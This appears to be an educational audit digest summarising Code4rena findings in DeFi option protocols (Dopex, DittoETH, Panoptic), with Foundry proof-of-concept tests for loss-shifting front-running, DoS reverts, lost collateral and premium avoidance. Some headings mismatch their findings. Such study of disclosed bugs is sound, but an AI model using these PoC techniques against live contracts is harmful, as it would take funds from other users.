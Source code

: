 # ETAAcademy-Adudit: 6. Option

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>06. Option</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>option</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Evta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] Put settlement can be anticipated and lead to user losses and bonding DoS

### Put settlement

- Summary: Liquidity providers in PerpetualAtlanticVaultLP can anticipate potential losses from in-the-money put options, allowing them to withdraw liquidity before losses occur. This creates a disadvantage for slower or less technically savvy users. The issue is rooted in the predictability of settlement price thresholds and the LPs' ability to redeem collateral at any time, potentially draining available collateral and hindering market participation for other users.

- Impact & Recommendation: The severity is high because new depositors face guaranteed losses without a clear solution. Possible fixes include implementing a "cooling off period" for withdrawals or minting more shares to reward long-term holders, but both options impact the project's token economics.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-02-put-settlement-can-be-anticipated-and-lead-to-user-losses-and-bonding-dos) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity 0.8.19;
    import { Test } from "forge-std/Test.sol";
    import "forge-std/console.sol";
    import { ERC721Holder } from "@openzeppelin/contracts/token/ERC721/utils/ERC721Holder.sol";
    import { Setup } from "./Setup.t.sol";
    import { PerpetualAtlanticVault } from "contracts/perp-vault/PerpetualAtlanticVault.sol";
    contract PoC is ERC721Holder, Setup {
    // ================================ HELPERS ================================ //
    function mintWeth(uint256 _amount, address _to) public {
        weth.mint(_to, _amount);
    }
    function mintRdpx(uint256 _amount, address _to) public {
        rdpx.mint(_to, _amount);
    }
    function deposit(uint256 _amount, address _from) public {
        vm.startPrank(_from, _from);
        vaultLp.deposit(_amount, _from);
        vm.stopPrank();
    }
    function purchase(uint256 _amount, address _as) public returns (uint256 id) {
        vm.startPrank(_as, _as);
        (, id) = vault.purchase(_amount, _as);
        vm.stopPrank();
    }
    function setApprovals(address _as) public {
        vm.startPrank(_as, _as);
        rdpx.approve(address(vault), type(uint256).max);
        rdpx.approve(address(vaultLp), type(uint256).max);
        weth.approve(address(vault), type(uint256).max);
        weth.approve(address(vaultLp), type(uint256).max);
        vm.stopPrank();
    }
    // ================================ CORE ================================ //
    /**
    Assumptions & config:
        - address(this) is impersonating the rdpxV2Core contract
        - premium per option: 0.05 weth
        - epoch duration: 1 day; 86400 seconds
        - initial price of rdpx: 0.2 weth
        - pricing precision is in 0.1 gwei
        - premium precision is in 0.1 gwei
        - rdpx and weth denomination in wei
    **/
    function testPoCHigh3() external {
        // Setup starts here ----------------------------->
        setApprovals(address(1));
        setApprovals(address(2));
        setApprovals(address(3));
        mintWeth(5 ether, address(1));
        mintWeth(5 ether, address(2));
        mintWeth(25 ether, address(3));
        /// The users deposit
        deposit(5 ether, address(1));
        deposit(5 ether, address(2));
        deposit(25 ether, address(3));
        uint256 userBalance = vaultLp.balanceOf(address(1));
        assertEq(userBalance, 5 ether);
        userBalance = vaultLp.balanceOf(address(2));
        assertEq(userBalance, 5 ether);
        userBalance = vaultLp.balanceOf(address(3));
        assertEq(userBalance, 25 ether);
        // premium = 100 * 0.05 weth = 5 weth
        uint256 tokenId = purchase(100 ether, address(this)); // 0.015 gwei * 100 ether / 0.1 gwei = 15 ether collateral activated
        skip(86500); // expires epoch 1
        vault.updateFunding();
        vault.updateFundingPaymentPointer();
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 0.015 gwei;
        uint256 fundingAccrued = vault.calculateFunding(strikes);
        assertEq(fundingAccrued, 5 ether);
        uint256[] memory tokenIds = new uint256[](1);
        tokenIds[0] = tokenId;
        /// ---------------- POC STARTS HERE ---------------------------------------------------///
        // At this point the Core contract has purchased options to sell 100 rdpx tokens
        // The market moves against `rdpx` and the puts are now in the money
        priceOracle.updateRdpxPrice(0.010 gwei);
        // Bob, a savvy user, sees there is collateral available to withdraw, and
        // because he monitors the price he knows the vault is about to take a loss
        // thus, he withdraws his capital, expecting a call to settle.
        userBalance = vaultLp.balanceOf(address(1));
        vm.startPrank(address(1));
        vaultLp.redeem(userBalance, address(1), address(1));
        vm.stopPrank();
        vm.startPrank(address(this), address(this));
        (uint256 ethAmount, uint256 rdpxAmount) = vault.settle(tokenIds);
        vm.stopPrank();
        // Bob now re-enters the LP Vault
        vm.startPrank(address(1));
        vaultLp.deposit(weth.balanceOf(address(1)), address(1));
        vm.stopPrank();
        // Now we tally up the scores
        console.log("User Bob ends with (WETH, RDPX, Shares):");
        userBalance = vaultLp.balanceOf(address(1));
        (uint256 aBob, uint256 bBob) = vaultLp.redeemPreview(userBalance);
        console.log(aBob, bBob, userBalance);
        userBalance = vaultLp.balanceOf(address(2));
        (uint256 aDave, uint256 bDave) = vaultLp.redeemPreview(userBalance);
        console.log("User Dave ends with (WETH, RDPX, Shares):");
        console.log(aDave, bDave, userBalance);
        /**
            Bob and Dave both started with 5 ether deposited into the vault LP.
            Bob ends up with shares worth 4.08 WETH + 16.32 RDPX
            Dave ends up with shares worth 3.48 WETH + 13.94 RDPX
            Thus we can conclude that by anticipating calls to `settle`,
            either by monitoring the market or through front-running,
            Bob has forced Dave to take on more of the losses.
        */
    }
    }

  ```

  </details>

## 2.[High] Put settlement can be anticipated and lead to user losses and bonding DoS

### Set minimum timeToExpiry

- Summary: The problem occurs in the PerpetualAtlanticVault contract when attempting to purchase options. If the time difference between the next funding payment and the current block time is less than 864 seconds, it causes the option pricing to use a time to expiry of 0, resulting in a revert. This leads to unexpected reverts approximately every 14 minutes during each funding epoch.

- Impact & Recommendation: Set minimum  timeToExpiry  inside  calculatePremium.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-06-bond-operations-will-always-revert-at-certain-time-when-putoptionsrequired-is-true) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
      function testOptionPricingRevert() public {
        OptionPricingSimple optionPricingSimple;
        optionPricingSimple = new OptionPricingSimple(100, 5e6);
        (uint256 rdpxRequired, uint256 wethRequired) = rdpxV2Core
            .calculateBondCost(1 * 1e18, 0);
        uint256 currentPrice = vault.getUnderlyingPrice(); // price of underlying wrt collateralToken
        uint256 strike = vault.roundUp(currentPrice - (currentPrice / 4)); // 25% below the current price
        // around 14 minutes before next funding payment
        vm.warp(block.timestamp + 7 days - 863 seconds);
        uint256 timeToExpiry = vault.nextFundingPaymentTimestamp() -
            block.timestamp;
        console.log("What is the current price");
        console.log(currentPrice);
        console.log("What is the strike");
        console.log(strike);
        console.log("What is time to expiry");
        console.log(timeToExpiry);
        uint256 price = vault.getUnderlyingPrice();
        // will revert
        vm.expectRevert();
        optionPricingSimple.getOptionPrice(strike, price, 100, timeToExpiry);
    }

  ```

  </details>

## 3.[High] Closing a SR during a wrong redemption proposal leads to loss of funds

### Collateral added to closed SR by disputed Redemption

- Summary: A vulnerability in the DittoETH protocol can lead to a loss of funds when closing a Short Record (SR) during a wrong redemption proposal. When a user creates a redemption proposal with the proposeRedemption function, they must provide a list of SRs with the lowest collateral ratios (CR) in ascending order. If the list is incorrect, anyone can dispute it using the disputeRedemption function. However, if an SR is closed (due to liquidation, exiting, or transfer) between proposing and disputing, its collateral is added to the closed SR and cannot be recovered.

- Impact & Recommendation: Reopening closed SRs could resolve the issue but might be misused to avoid liquidations.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-dittoeth#h-06-closing-a-sr-during-a-wrong-redemption-proposal-leads-to-loss-of-funds) & [Report](https://code4rena.com/reports/2024-03-dittoeth)

<details><summary>POC</summary>

```solidity
function test_dispute_on_non_existing_sr() public {
    // setup shorts
    makeShorts({singleShorter: true});
    _setETH(1000 ether);
    skip(1 hours);
    STypes.ShortRecord memory sr1 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID);
    STypes.ShortRecord memory sr2 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+1);
    STypes.ShortRecord memory sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    uint256 cr1 = diamond.getCollateralRatio(asset, sr1);
    uint256 cr2 = diamond.getCollateralRatio(asset, sr2);
    uint256 cr3 = diamond.getCollateralRatio(asset, sr3);
    // CRs are increasing
    assertGt(cr2, cr1);
    assertGt(cr3, cr2);
    // user creates a wrong proposal
    MTypes.ProposalInput[] memory proposalInputs =
        makeProposalInputsForDispute({shortId1: C.SHORT_STARTING_ID + 1, shortId2: C.SHORT_STARTING_ID + 2});
    address redeemer = receiver;
    vm.prank(redeemer);
    diamond.proposeRedemption(asset, proposalInputs, DEFAULT_AMOUNT * 3 / 2, MAX_REDEMPTION_FEE);
    // on of the SRs in the proposal is closed
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT / 2, extra);
    exitShort(C.SHORT_STARTING_ID + 2, DEFAULT_AMOUNT / 2, DEFAULT_PRICE, sender);
    // SR is now closed
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    uint88 collateralBefore = sr3.collateral;
    // another user disputes the wrong proposal
    address disputer = extra;
    vm.prank(disputer);
    diamond.disputeRedemption({
        asset: asset,
        redeemer: redeemer,
        incorrectIndex: 0,
        disputeShorter: sender,
        disputeShortId: C.SHORT_STARTING_ID
    });
    // SR is still closed and collateral increased
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    assertGt(sr3.collateral, collateralBefore);
}

```

</details>

## 4.[Medium] Premia calculation can cause DOS

### Premia calculation

- Summary: Premia calculation can cause a Denial of Service (DoS) for certain addresses. If removedLiquidity is high and netLiquidity is extremely low, the calculation in `_getPremiaDeltas` will revert since the amount cannot be cast to uint128.

- Impact & Recommendation: Modify the premia calculation to handle these edge cases and use uint256 for storing premia to avoid casting issues.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-11-panoptic#m-01-premia-calculation-can-cause-dos) & [Report](https://code4rena.com/reports/2023-11-panoptic)

<details><summary>POC</summary>

```solidity
diff --git a/test/foundry/core/SemiFungiblePositionManager.t.sol b/test/foundry/core/SemiFungiblePositionManager.t.sol
index 5f09101..e9eef27 100644
--- a/test/foundry/core/SemiFungiblePositionManager.t.sol
+++ b/test/foundry/core/SemiFungiblePositionManager.t.sol
@@ -5,7 +5,7 @@ import "forge-std/Test.sol";
 import {stdMath} from "forge-std/StdMath.sol";
 import {Errors} from "@libraries/Errors.sol";
 import {Math} from "@libraries/Math.sol";
-import {PanopticMath} from "@libraries/PanopticMath.sol";
+import {PanopticMath,LiquidityChunk} from "@libraries/PanopticMath.sol";
 import {CallbackLib} from "@libraries/CallbackLib.sol";
 import {TokenId} from "@types/TokenId.sol";
 import {LeftRight} from "@types/LeftRight.sol";
@@ -55,7 +55,7 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
     using LeftRight for uint256;
     using LeftRight for uint128;
     using LeftRight for int256;
-
+    using LiquidityChunk for uint256;
     /*//////////////////////////////////////////////////////////////
                            MAINNET CONTRACTS
     //////////////////////////////////////////////////////////////*/
@@ -79,6 +79,7 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
         IUniswapV3Pool(0xCBCdF9626bC03E24f779434178A73a0B4bad62eD);
     IUniswapV3Pool constant USDC_WETH_30 =
         IUniswapV3Pool(0x8ad599c3A0ff1De082011EFDDc58f1908eb6e6D8);
+    IUniswapV3Pool constant PEPE_WETH_30 = IUniswapV3Pool(0x11950d141EcB863F01007AdD7D1A342041227b58);
     IUniswapV3Pool[3] public pools = [USDC_WETH_5, USDC_WETH_5, USDC_WETH_30];

     /*//////////////////////////////////////////////////////////////
@@ -189,7 +190,8 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
     /// @notice Set up world state with data from a random pool off the list and fund+approve actors
     function _initWorld(uint256 seed) internal {
         // Pick a pool from the seed and cache initial state
-        _cacheWorldState(pools[bound(seed, 0, pools.length - 1)]);
+        // _cacheWorldState(pools[bound(seed, 0, pools.length - 1)]);
+        _cacheWorldState(PEPE_WETH_30);

         // Fund some of the generic actor accounts
         vm.startPrank(Bob);
@@ -241,6 +243,93 @@ contract SemiFungiblePositionManagerTest is PositionUtils {
         sfpm = new SemiFungiblePositionManagerHarness(V3FACTORY);
     }

+    function testHash_PremiaRevertDueToLowNetHighLiquidity() public {
+        _initWorld(0);
+        vm.stopPrank();
+        sfpm.initializeAMMPool(token0, token1, fee);
+
+        deal(token0, address(this), type(uint128).max);
+        deal(token1, address(this), type(uint128).max);
+
+        IERC20Partial(token0).approve(address(sfpm), type(uint256).max);
+        IERC20Partial(token1).approve(address(sfpm), type(uint256).max);
+
+        int24 strike = ((currentTick / tickSpacing) * tickSpacing) + 3 * tickSpacing;
+        int24 width = 2;
+        int24 lowTick = strike - tickSpacing;
+        int24 highTick = strike + tickSpacing;
+
+        uint256 shortTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, 0, 0, 0, 0, strike, width);
+
+        uint128 posSize = 100_000_000e18; // gives > 2**71 liquidity ~$100
+
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+
+        uint256 accountLiq = sfpm.getAccountLiquidity(address(PEPE_WETH_30), address(this), 0, lowTick, highTick);
+
+        assert(accountLiq.rightSlot() > 2 ** 71);
+
+        // the added liquidity is removed leaving some dust behind
+        uint256 longTokenId = uint256(0).addUniv3pool(poolId).addLeg(0, 1, 0, 1, 0, 0, strike, width);
+        sfpm.mintTokenizedPosition(longTokenId, posSize / 2, type(int24).min, type(int24).max);
+        sfpm.mintTokenizedPosition(longTokenId, posSize / 2 , type(int24).min, type(int24).max);
+
+        // fees is accrued on the position
+        vm.startPrank(Swapper);
+        uint256 amountReceived = router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token1, token0, fee, Bob, block.timestamp, 100e18, 0, 0)
+        );
+        (, int24 tickAfterSwap,,,,,) = pool.slot0();
+        assert(tickAfterSwap > lowTick);
+
+
+        router.exactInputSingle(
+            ISwapRouter.ExactInputSingleParams(token0, token1, fee, Bob, block.timestamp, amountReceived, 0, 0)
+        );
+        vm.stopPrank();
+
+        // further mints will revert due to amountToCollect being non-zero and premia calculation reverting
+        vm.expectRevert(Errors.CastingError.selector);
+        sfpm.mintTokenizedPosition(shortTokenId, posSize, type(int24).min, type(int24).max);
+    }
+
+    function testHash_DustLiquidityAmount() public {
+        int24 tickLower = 199260;
+        int24 tickUpper = 199290;
+
+        /*
+            amount0 219738690
+            liquidity initial 3110442974185905
+            liquidity withdraw 3110442974185904
+        */
+
+        uint amount0 = 219738690;
+
+        uint128 liquidityMinted = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                amount0
+            );
+
+        // remove liquidity in pieces
+        uint halfAmount = amount0/2;
+        uint remaining = amount0-halfAmount;
+
+        uint128 liquidityRemoval1 = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                halfAmount
+            );
+        uint128 liquidityRemoval2 = Math.getLiquidityForAmount0(
+                uint256(0).addTickLower(tickLower).addTickUpper(tickUpper),
+                remaining
+            );
+
+        assert(liquidityMinted - (liquidityRemoval1 + liquidityRemoval2) > 0);
+    }
+
+    function onERC1155Received(address, address, uint256 id, uint256, bytes memory) public returns (bytes4) {
+        return this.onERC1155Received.selector;
+    }
+

```

</details>

## 5.[High] SettleLongPremium is incorrectly implemented: premium should be deducted instead of added

### premium deducted

- Summary: The `settleLongPremium` function, which is intended to settle premiums for long option holders, incorrectly adds the premium to the option owner’s account instead of deducting it. This misimplementation leads to the user receiving premium payments when they should be paying them.

- Impact & recommendation: Modify the `realizedPremia` calculation to be negative before calling `s_collateralToken.exercise()`.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-panoptic#h-01-settlelongpremium-is-incorrectly-implemented-premium-should-be-deducted-instead-of-added) & [Report](https://code4rena.com/reports/2024-04-panoptic)

<details><summary>POC</summary>

```solidity

        assetsBefore0 = ct0.convertToAssets(ct0.balanceOf(Buyers[0]));
        assetsBefore1 = ct1.convertToAssets(ct1.balanceOf(Buyers[0]));
        // collect buyer 1's three relevant chunks
        for (uint256 i = 0; i < 3; ++i) {
            pp.settleLongPremium(collateralIdLists[i], Buyers[0], 0);
        }
        assertEq(
            ct0.convertToAssets(ct0.balanceOf(Buyers[0])) - assetsBefore0,
            33_342,
            "Incorrect Buyer 1 1st Collect 0"
        );

```

</details>

## 6.[High] Incorrect validation during checking liquidity spread

### Not paying premium

- Summary: Incorrect validation during the liquidity spread check in the Panoptic protocol allows option buyers to avoid paying the premium.

- Impact & Recommendation: Correct the validation in the liquidity spread check to revert when `NetLiquidity` is zero and `TotalLiquidity` is positive.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-panoptic#m-04-incorrect-validation-during-checking-liquidity-spread) & [Report](https://code4rena.com/reports/2024-04-panoptic)

<details><summary>POC</summary>

```solidity

+   if(netLiquidity == 0 && totalLiquidity > 0) revert;
    if(netLiquidity == 0) return;

```

</details>

## 7.[Medium] `_updateSettlementPostBurn()` may not correctly reduce s_grossPremiumLast[chunkKey]

### Update premium

- Summary: The function \_updateSettlementPostBurn() does not correctly update s_grossPremiumLast[chunkKey] when legPremia == 0, leading to incorrect accounting of the premium values.

- Impact & Recommendation: Regardless of the value of legPremia, it should recalculate s_grossPremiumLast[chunkKey] when long == 0.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-panoptic#m-06-_updatesettlementpostburn-may-not-correctly-reduce-s_grosspremiumlastchunkkey) & [Report](https://code4rena.com/reports/2024-04-panoptic)

<details><summary>POC</summary>

```solidity
    function _updateSettlementPostBurn(
        address owner,
        TokenId tokenId,
        LeftRightUnsigned[4] memory collectedByLeg,
        uint128 positionSize,
        bool commitLongSettled
    ) internal returns (LeftRightSigned realizedPremia, LeftRightSigned[4] memory premiaByLeg) {
...
        for (uint256 leg = 0; leg < numLegs; ) {
            LeftRightSigned legPremia = premiaByLeg[leg];
            bytes32 chunkKey = keccak256(
                abi.encodePacked(tokenId.strike(leg), tokenId.width(leg), tokenId.tokenType(leg))
            );
            // collected from Uniswap
            LeftRightUnsigned settledTokens = s_settledTokens[chunkKey].add(collectedByLeg[leg]);
            if (LeftRightSigned.unwrap(legPremia) != 0) {
                // (will be) paid by long legs
                if (tokenId.isLong(leg) == 1) {
...
                } else {
....
                    // subtract settled tokens sent to seller
                    settledTokens = settledTokens.sub(availablePremium);
                    // add available premium to amount that should be settled
                    realizedPremia = realizedPremia.add(
                        LeftRightSigned.wrap(int256(LeftRightUnsigned.unwrap(availablePremium)))
                    );
-                   unchecked {
-                       uint256[2][4] memory _premiumAccumulatorsByLeg = premiumAccumulatorsByLeg;-
-                        uint256 _leg = leg;
-
-                        // if there's still liquidity, compute the new grossPremiumLast
-                        // otherwise, we just reset grossPremiumLast to the current grossPremium
-                        s_grossPremiumLast[chunkKey] = totalLiquidity != 0
-                            ? LeftRightUnsigned
-                                .wrap(0)
-                                .toRightSlot(
-                                    uint128(
-                                        uint256(
-                                            Math.max(
-                                                (int256(
-                                                    grossPremiumLast.rightSlot() *
-                                                        totalLiquidityBefore
-                                                ) -
-                                                    int256(
-                                                        _premiumAccumulatorsByLeg[_leg][0] *
-                                                            positionLiquidity
-                                                    )) + int256(legPremia.rightSlot() * 2 ** 64),
-                                                0
-                                            )
-                                        ) / totalLiquidity
-                                    )
-                                )
-                                .toLeftSlot(
-                                    uint128(
-                                        uint256(
-                                            Math.max(
-                                                (int256(
-                                                    grossPremiumLast.leftSlot() *
-                                                        totalLiquidityBefore
-                                                ) -
-                                                    int256(
-                                                        _premiumAccumulatorsByLeg[_leg][1] *
-                                                            positionLiquidity
-                                                    )) + int256(legPremia.leftSlot()) * 2 ** 64,
-                                                0
-                                            )
-                                        ) / totalLiquidity
-                                    )
-                                )
-                            : LeftRightUnsigned
-                                .wrap(0)
-                                .toRightSlot(uint128(premiumAccumulatorsByLeg[_leg][0]))
-                                .toLeftSlot(uint128(premiumAccumulatorsByLeg[_leg][1]));
-                       }
                   }
               }
+             if (tokenId.isLong(leg) == 0){
+                   uint256 positionLiquidity = PanopticMath
+                   .getLiquidityChunk(tokenId, leg, positionSize)
+                    .liquidity();
+
+                    // new totalLiquidity (total sold) = removedLiquidity + netLiquidity (T - R)
+                    uint256 totalLiquidity = _getTotalLiquidity(tokenId, leg);
+                    // T (totalLiquidity is (T - R) after burning)
+                   uint256 totalLiquidityBefore = totalLiquidity + positionLiquidity;
+
+                    LeftRightUnsigned grossPremiumLast = s_grossPremiumLast[chunkKey];
+                    unchecked {
+                        uint256[2][4] memory _premiumAccumulatorsByLeg = premiumAccumulatorsByLeg;
+                        uint256 _leg = leg;
+
+                        // if there's still liquidity, compute the new grossPremiumLast
+                        // otherwise, we just reset grossPremiumLast to the current grossPremium
+                        s_grossPremiumLast[chunkKey] = totalLiquidity != 0
+                            ? LeftRightUnsigned
+                                .wrap(0)
+                                .toRightSlot(
+                                    uint128(
+                                        uint256(
+                                            Math.max(
+                                                (int256(
+                                                    grossPremiumLast.rightSlot() *
+                                                        totalLiquidityBefore
+                                                ) -
+                                                    int256(
+                                                        _premiumAccumulatorsByLeg[_leg][0] *
+                                                            positionLiquidity
+                                                    )) + int256(legPremia.rightSlot() * 2 ** 64),
+                                                0
+                                            )
+                                        ) / totalLiquidity
+                                    )
+                                )
+                                .toLeftSlot(
+                                    uint128(
+                                       uint256(
+                                            Math.max(
+                                                (int256(
+                                                    grossPremiumLast.leftSlot() *
+                                                        totalLiquidityBefore
+                                                ) -
+                                                    int256(
+                                                        _premiumAccumulatorsByLeg[_leg][1] *
+                                                            positionLiquidity
+                                                    )) + int256(legPremia.leftSlot()) * 2 ** 64,
+                                                0
+                                            )
+                                        ) / totalLiquidity
+                                    )
+                                )
+                            : LeftRightUnsigned
+                                .wrap(0)
+                                .toRightSlot(uint128(premiumAccumulatorsByLeg[_leg][0]))
+                                .toLeftSlot(uint128(premiumAccumulatorsByLeg[_leg][1]));
+                    }
+                }
            }
            // update settled tokens in storage with all local deltas
            s_settledTokens[chunkKey] = settledTokens;
            unchecked {
                ++leg;
            }
        }
    }
}

```

</details>
